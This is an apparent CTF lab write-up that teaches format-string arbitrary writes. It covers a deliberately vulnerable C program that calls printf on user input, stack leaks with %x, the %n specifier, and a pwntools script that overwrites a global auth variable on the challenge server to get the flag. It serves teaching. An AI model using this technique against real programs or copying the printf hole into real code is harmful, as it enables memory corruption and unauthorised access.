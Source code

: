 ```yaml
---
description: Performing arbitrary writes using format strings.
---
```


# format

{% file src="../../.gitbook/assets/format.zip" %}

This is an introduction to the **arbitrary write** of the format string bug. This allows us to write arbitrary values to an address of our choice. We use this to overwrite an authentication variable, which allows us to get the flag.

### Binary Static Analysis

For this binary, we will supply the source code to understand the binary better. This is the binary:

{% code title="findme.c" lineNumbers="true" %}
```c
#include <stdio.h>

int auth = 0;

int main() {
    char password[100];

    puts("Password: ");
    fflush(stdout);
    fgets(password, sizeof password, stdin);

    printf(password);
    printf("Auth is %i\n", auth);

    if(auth == 10) {
        system("cat flag.txt");
    }
}
```
{% endcode %}

In this case, here's what we notice:

* There is a secure `fgets` call that doesn't allow for buffer overflow. This means that we can't just overwrite the `auth` variable (we also know that global variables get loaded into a different memory segment, so buffer overflow doesn't make much sense).
* There is a format string vulnerability where they print our password. This means that we can leak data off the stack.
* Our goal is to modify `auth`, which is a global variable. This is where the _arbitrary write_ comes in. We have a slight advantage that `auth` is global, meaning its address is known at compile time. This means that we can write to it directly.

Let's first see what kind of data we can leak. We'll use a series of `%x` inputs to leak as much data as possible.

```bash
$ ./format
Password: 
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
64 f7e2a620 80491bd 0 1 f7fc1a40 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
Auth is 0
```

We notice that a series of the same data pattern reappears after a few iterations. A quick observation shows us that:

```bash
$ python3 -c "print(''.join(hex(ord(x))[2:] for x in '%x '))"
257820
```

This means that this pattern represents our input! Our input starts at the 7th position off the stack. **This is vital info**; we can use this as a baseline for where we are in memory.

### Arbitrary Writes

There is a special format specifier in C that has a particular function: `%n`. `%n` is unlike the other format specifiers in that it _stores_ data, namely **the number of bytes written thus far**. Typically, this is used like below:

```c
int main(void)
{
    int bytes;
    printf("Hello World%n\n", &bytes);
    printf("Bytes written: %d\n", bytes);
}
```

This prints:

```bash
$ ./test
Hello World
Bytes written: 11
```

How can we exploit this? If we can pass in an address of our choice, we can write a number to that address.

### Getting the Necessary Information

We need three things to perform an arbitrary write:

* The location on the stack of our buffer
* The location of the address we want to write
* The value we want to write

We figured out the first one already! We determined that our input started at the 7th position. Now we need the address of where we want to write. There are two ways to do this:

1. Use the list of global variables in `gdb`: `info variables`
2. Use the symbol table, accessible with `readelf -s <binary>`

Either way, we get that `auth` is located at `0x0804c02c`. Finally, we know that we want to write 10 bytes, meaning that before we place the `%n`, we need to write 10 bytes.

Let's put this all together and discuss why this payload works:

```python
payload = p32(0x0804c02c)
payload += b'A' * 6
payload += b'%7$n'
```

We first write the address of `auth` to the stack. Then, we write six more bytes of data to fill the requirement of writing 10 bytes of data. Finally, we write the `%n` specifier, which writes the number of bytes written so far to the address at the 7th position on the stack. This is the address of `auth`, so we write `10` to `auth`!

### Exploiting the Binary

Let's put this all together and get the flag!

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./format')
p = remote('vunrotc.cole-ellis.com', 3200)

payload = p32(0x0804c02c)
payload += b'A' * 0x6
payload += b'%7$n'

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gives:

```bash
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/03-formats/format/src/format'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to vunrotc.cole-ellis.com on port 3200: Done
[*] Switching to interactive mode
Password: 
flag{maybe_we_need_a_better_dev}
0\xcAAAAAA
Auth is 10
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 3200
```

We see that `auth` is changed, and the flag is printed!
